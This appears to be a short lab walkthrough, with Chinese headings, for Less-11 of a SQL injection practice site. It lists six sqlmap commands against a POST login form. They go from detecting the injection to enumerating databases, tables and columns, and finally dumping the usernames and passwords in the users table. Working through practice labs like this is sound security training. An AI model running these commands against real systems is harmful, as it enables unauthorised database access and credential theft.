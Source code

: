 # less11

## 测试存在SQL注入

```
sqlmap.py -u "http://193.168.4.44/Less-11/" --method=POST --data="uname=ss&passwd=dd&submit=Submit" --batch --flush-session
```



## 获取所有数据库

```
sqlmap.py -u "http://193.168.4.44/Less-11/" --method=POST --data="uname=ss&passwd=dd&submit=Submit" --dbs --batch --flush-session
```



## 获取当前的数据库

```
sqlmap.py -u "http://193.168.4.44/Less-11/" --method=POST --data="uname=ss&passwd=dd&submit=Submit" --current-db --batch --flush-session
```



## 获取security的表

```
sqlmap.py -u "http://193.168.4.44/Less-11/" --method=POST --data="uname=ss&passwd=dd&submit=Submit" -D security --tables --batch --flush-session
```



## 获取users表中所有的列

```
sqlmap.py -u "http://193.168.4.44/Less-11/" --method=POST --data="uname=ss&passwd=dd&submit=Submit" -D security -T users --columns --batch --flush-session
```



## 获取数据

```
sqlmap.py -u "http://193.168.4.44/Less-11/" --method=POST --data="uname=ss&passwd=dd&submit=Submit" -D security -T users -C "id,username,password" --dump --batch --flush-session
```

